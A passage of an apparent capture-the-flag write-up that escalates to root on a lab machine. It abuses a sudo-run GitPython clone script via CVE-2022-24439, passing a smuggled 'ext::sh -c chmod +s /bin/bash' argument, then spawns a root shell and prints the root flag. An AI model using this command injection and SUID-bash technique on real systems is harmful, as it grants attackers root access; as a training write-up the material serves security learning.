    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

The `Python script` used `PythonGit` and also `protocol.ext.allow`.

```c
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

## Privilege Escalation to root

### CVE-2022-24439: GitPython Remote Code Execution (RCE)

We searched for `GitPython` vulnerabilities and found a `Remote Code Execution (RCE)` vulnerability if a script uses `protocol.ext.allow`.

- [https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858](https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858)

We used the `Proof of Concept (PoC)` code and got code execution in the context of `root`.

```c
prod@editorial:~$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% +s% /bin/bash'
Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% +s% /bin/bash new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
```

REASON: Exploiting this vulnerability is possible because the library makes external calls to git without sufficient sanitization of input arguments. This is only relevant when enabling the ext transport protocol.

Shout-out to `ar0x4`!

```c
prod@editorial:~$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Mar 14 11:31 /bin/bash
```

```c
prod@editorial:~$ /bin/bash -p
bash-5.1#
```

## root.txt

```c
bash-5.1# cat /root/root.txt
b46dc5a75e39aacf885440416531604b
```
